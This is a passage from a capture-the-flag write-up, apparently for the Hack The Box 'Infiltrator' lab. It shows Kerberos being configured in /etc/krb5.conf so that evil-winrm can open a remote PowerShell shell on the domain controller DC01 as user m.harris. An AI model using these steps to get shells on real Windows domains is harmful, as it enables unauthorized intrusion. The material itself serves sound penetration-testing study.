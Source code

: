 #### 5.6.2. Use `evil-winrm` to get a shell `DC01`

The KDC for `infiltrator.htb` could not be located:

```console
root@kali:~# evil-winrm -i dc01.infiltrator.htb -r infiltrator.htb

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

Error: An error of type GSSAPI::GssApiError happened, message is gss_init_sec_context did not return GSS_S_COMPLETE: Unspecified GSS failure.  Minor code may provide more information
Cannot find KDC for realm "INFILTRATOR.HTB"


Error: Exiting with code 1
```

Create `/etc/krb5.conf` to point to `dc01.infiltrator.htb` as KDC

```sh
cat << EOF > /etc/krb5.conf
[libdefaults]
    default_realm = INFILTRATOR.HTB
    dns_lookup_realm = false
    dns_lookup_kdc = false
    forwardable = true
[realms]
    INFILTRATOR.HTB = {
        kdc = dc01.infiltrator.htb
        admin_server = dc01.infiltrator.htb
    }
[domain_realm]
    .infiltrator.htb = INFILTRATOR.HTB
    infiltrator.htb = INFILTRATOR.HTB
EOF
```

tah-dah:

```console
root@kali:~# evil-winrm -i dc01.infiltrator.htb -r infiltrator.htb

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\M.harris\Documents> whoami
infiltrator\m.harris
```
